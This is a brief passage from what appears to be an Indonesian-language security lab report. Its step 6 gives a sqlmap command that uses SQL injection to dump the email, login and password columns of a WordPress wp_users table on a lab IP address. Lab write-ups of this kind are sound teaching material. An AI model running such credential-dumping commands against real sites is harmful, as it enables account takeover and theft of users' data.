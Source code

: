 ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/result_coloumn.png "Result coloumn")
6. Untuk mengetahui isi record user_email, user_login, user_pass pada kolom **wp_users** masukkan perintah `sqlmap --url="10.151.32.6/?season=2017&league_id=1" -T wp_users -C user_email,user_login,user_pass`